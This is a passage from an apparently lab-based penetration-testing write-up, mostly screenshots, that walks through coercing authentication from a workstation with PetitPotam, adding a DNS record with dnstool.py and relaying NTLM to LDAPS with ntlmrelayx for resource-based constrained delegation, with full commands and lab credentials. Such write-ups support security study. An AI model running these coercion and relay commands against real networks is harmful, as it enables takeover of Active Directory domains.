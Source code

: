 <img src="https://i.imgur.com/G0RuW12.png"/>

But this password didn't worked with any other user

<img src="https://i.imgur.com/Yt7mt5L.png"/>

Taking a hint from the vulnlab wiki, it mentions about looking into LDAP singing and WebClient service, we can check these if they are enabled  with the help of crackmapexec

<img src="https://i.imgur.com/Sjqx7XL.png"/>

## Performing RBCD to get Administrator (WS01)

WebClient (WebDAV) service is enabled on WS01, which can be abused to coerce authentication combined with `PetitPotam`, we'll coerce WS01 to authenticate on DC01, since LDAP singing is disabled, this can be relayed with `ntlmrealyx` through LDAP, we can add a machine account with delegation privileges to WS01 meaning that we can perform `resource based delegation (RBCD)` (https://www.r-tec.net/r-tec-blog-resource-based-constrained-delegation.html) on WS01 and impersonate as administrator

<img src="https://i.imgur.com/xlDFha1.png"/>

But the issue is to retrieve the coerced authentication, the host needs to be in an intranet zone, must be a domain joined machine or create a valid DNS entry,  

Starting `responder` with HTTP set to off and note down the hostname it generates for us 

<img src="https://i.imgur.com/UO1vttC.png"/>

<img src="https://i.imgur.com/Hk7XmWA.png"/>

Adding DNS entry for this hostname with `dnstool.py` https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py

```bash
python3 dnstool.py -u 'intercept.vl\KATHRYN.SPENCER' -p Chocolate1 --action add --record WIN-6U9AIDU8LOC.intercept.vl --data 10.8.0.136 --type A 10.10.172.149
```

<img src="https://i.imgur.com/bFFD5qK.png"/>

Running ntlmrealyx with `--delegate-access` on DC01

```bash
ntlmrelayx.py -t ldaps://10.10.172.149 --delegate-access -smb2support
```

<img src="https://i.imgur.com/LaWbtGG.png"/>

And finally we are going to run `petitpotam.py` on WS01

```bash
python3 petitpotam.py -d "intercept.vl" -u "KATHRYN.SPENCER" -p "Chocolate1" WIN-6U9AIDU8LOC@80/randomfile.txt 10.10.172.150
```
